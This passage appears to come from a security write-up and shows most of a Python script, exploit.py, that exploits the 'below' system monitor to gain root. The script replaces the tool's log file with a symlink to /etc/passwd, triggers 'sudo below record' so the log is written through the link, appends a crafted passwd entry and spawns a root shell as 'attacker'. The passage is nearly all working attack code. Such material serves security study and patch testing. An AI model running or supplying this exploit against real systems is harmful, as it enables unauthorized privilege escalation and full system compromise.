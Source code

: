 ```python
        else:
            print(f"[!] {TARGET_LOG} is a regular file. Removing it...")
            os.remove(TARGET_LOG)

    try:
        os.symlink("/etc/passwd", TARGET_LOG)
        print(f"[+] Symlink created: {TARGET_LOG} -> /etc/passwd")
        os.remove(TARGET_LOG)  
        return True
    except Exception as e:
        print(f"[-] Failed to create symlink: {e}")
        return False

def exploit():
    print("[*] Starting exploitation...")

    with open(TMP_PAYLOAD, "w") as f:
        f.write(MALICIOUS_PASSWD_LINE)
    print(f"[+] Wrote malicious passwd line to {TMP_PAYLOAD}")

    if os.path.exists(TARGET_LOG):
        os.remove(TARGET_LOG)
    os.symlink("/etc/passwd", TARGET_LOG)
    print(f"[+] Symlink set: {TARGET_LOG} -> /etc/passwd")

    print("[*] Executing 'below record' as root to trigger logging...")
    try:
        subprocess.run(["sudo", BINARY, "record"], timeout=40)
        print("[+] 'below record' executed.")
    except subprocess.TimeoutExpired:
        print("[-] 'below record' timed out (may still have written to the file).")
    except Exception as e:
        print(f"[-] Failed to execute 'below': {e}")

    print("[*] Appending payload into /etc/passwd via symlink...")
    try:
        with open(TARGET_LOG, "a") as f:
            f.write(MALICIOUS_PASSWD_LINE)
        print("[+] Payload appended successfully.")
    except Exception as e:
        print(f"[-] Failed to append payload: {e}")

    print("[*] Attempting to switch to root shell via 'su attacker'...")
    try:
        pty.spawn(["su", "attacker"])
    except Exception as e:
        print(f"[-] Failed to spawn shell: {e}")
        return False

def main():
    if not check_vulnerability():
        print("[-] Target does not appear vulnerable.")
        sys.exit(1)
    print("[+] Target is vulnerable.")

    if not exploit():
        print("[-] Exploitation failed.")
        sys.exit(1)

if __name__ == "__main__":
    main()
```
{: file="exploit.py" }